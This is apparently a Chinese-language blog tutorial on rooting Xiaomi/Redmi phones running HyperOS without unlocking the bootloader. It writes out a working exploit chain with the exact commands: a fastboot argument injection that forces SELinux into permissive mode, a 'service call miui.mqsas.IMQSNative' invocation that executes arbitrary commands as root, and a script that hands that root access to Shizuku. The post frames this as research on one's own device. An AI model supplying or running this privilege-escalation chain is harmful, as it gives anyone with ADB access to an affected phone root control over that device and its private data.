





今天各种群聊传来了小米 17 可以通过漏洞直接解锁 Bootloader，而不需要通过小米高考等方式的消息。该方式利用了以下漏洞：

- 骁龙 8Elite Gen5 平台对 `efisp` 分区缺乏校验
- 高通平台 fastboot 存在参数注入，可以使 SELinux 临时变为宽容模式
- 小米系统内置服务可以被利用，从而使用 `root` 权限执行任意命令

为了解锁 bl，这 3 个漏洞均需要有效，虽然除 8Elite Gen5 以外的平台没办法解锁 bl，但可以尝试利用另外 2 个漏洞获取 root 权限，并通过 [Shizuku](https://github.com/RikkaApps/Shizuku) 提供给其它应用，而不需要解锁 bl。

:::warning
这种提权方式获得的 root 有局限性，不能直接写入 `/system` 等分区。仅供研究测试用，谨慎尝试。
:::

# 笔者的环境
- 设备： Redmi K70
- HyperOS 版本： 3.0.9.0.WNKCNXM
- Android 安全更新： 2026-02-01

:::warning
不保证所有机型，所有系统版本均适用此方法。
:::

# 设置 SELinux 宽容模式

将手机连接至电脑，重启至 fastboot：
```shell
adb shell reboot bootloader
```
使用以下命令将 SELinux 设为宽容模式并启动系统：
```shell
fastboot oem set-gpu-preemption-value 0 androidboot.selinux=permissive
fastboot continue
```
:::caution
设为宽容模式可能带来**不可预测的后果**，请谨慎操作。此操作不会清除手机内所有数据。
:::

:::note
重启设备后，SELinux 会重新变回严格模式。
:::



# 以 root 权限执行命令
通过 ADB Shell 权限执行以下命令：
```shell
service call miui.mqsas.IMQSNative 21 i32 1 s16 "命令" i32 1 s16 "参数" s16 '结果输出文件路径' i32 600
```
命令的执行结果可在输出的文件里查看，例如执行 `whoami`：
```shell
service call miui.mqsas.IMQSNative 21 i32 1 s16 "whoami" i32 1 s16 "" s16 '/sdcard/log.txt' i32 600
```

可以看见是货真价实的 root 权限，并且由于已将 SELinux 设为宽容模式，该权限可以读写 `/data` 目录下的**几乎所有**文件。
:::important
即便不将 SELinux 设为宽容模式，也可使用该命令提取 root 权限，但该权限的能力会大打折扣，几乎没法读写 `/data` 目录下的文件，但可以使用此权限读取 `/system/build.prop` 等文件。
:::

# 将 root 权限授予 Shizuku
在 `13.6.0` 版本的 Shizuku 里，运行 Shizuku 的命令为（实际路径可能有不同）：
```shell
adb shell /data/app/~~eTcgekFm0aefNy2Vm_Iq9A==/moe.shizuku.privileged.api-Evrmedj2P4USUISnIM9I5A==/lib/arm64/libshizuku.so
```
若直接通过上面的 root 提权命令直接执行，通常会直接崩溃，原因是缺少 2 个环境变量： `DEX2OATBOOTCLASSPATH` 和 `BOOTCLASSPATH`。需要编写一个简单的脚本提供这两个环境变量。
在 Termux 或 ADB Shell 执行 `env` 命令，得到这两个环境变量，将其值复制，然后编写脚本：
```shell
export DEX2OATBOOTCLASSPATH="xxxxxxxxxx"
export BOOTCLASSPATH="xxxxxxxxxxx"

/data/app/~~eTcgekFm0aefNy2Vm_Iq9A==/moe.shizuku.privileged.api-Evrmedj2P4USUISnIM9I5A==/lib/arm64/libshizuku.so
```
存放到任意位置（如 `/sdcard/start.sh`），然后以 root 权限运行：
```shell
service call miui.mqsas.IMQSNative 21 i32 1 s16 "sh" i32 1 s16 "/sdcard/start.sh" s16 '/sdcard/log.txt' i32 600
```

Shizuku 已经拥有了 root 权限，并且可以将该权限提供给 MT 管理器，Termux 等软件。
